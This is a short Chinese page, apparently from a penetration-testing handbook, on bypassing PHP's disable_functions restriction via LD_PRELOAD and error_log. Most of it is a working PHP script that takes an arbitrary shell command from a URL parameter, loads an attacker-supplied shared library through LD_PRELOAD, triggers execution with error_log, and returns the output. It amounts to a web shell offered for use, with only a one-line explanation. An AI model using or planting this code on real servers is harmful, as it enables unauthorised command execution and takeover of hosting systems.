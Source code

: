 > 原文：[http://book.iwonder.run/安全技术/Disable functions/errorlog.html](http://book.iwonder.run/安全技术/Disable functions/errorlog.html)

## error_log

> [https://github.com/ianxtianxt/bypass_disablefunc_via_LD_PRELOAD/blob/master/bypass_disablefunc.php](https://github.com/ianxtianxt/bypass_disablefunc_via_LD_PRELOAD/blob/master/bypass_disablefunc.php)

将 mail 例子中的 mail("", "", "", "");替换为 error_log("a",1);

```
<?php
    echo "<p> <b>example</b>: http://www.0-sec.org/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so </p>";

    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";

    putenv("EVIL_CMDLINE=" . $evil_cmdline);

    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);

    error_log("a",1);

    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 

    unlink($out_path);
?> 
```

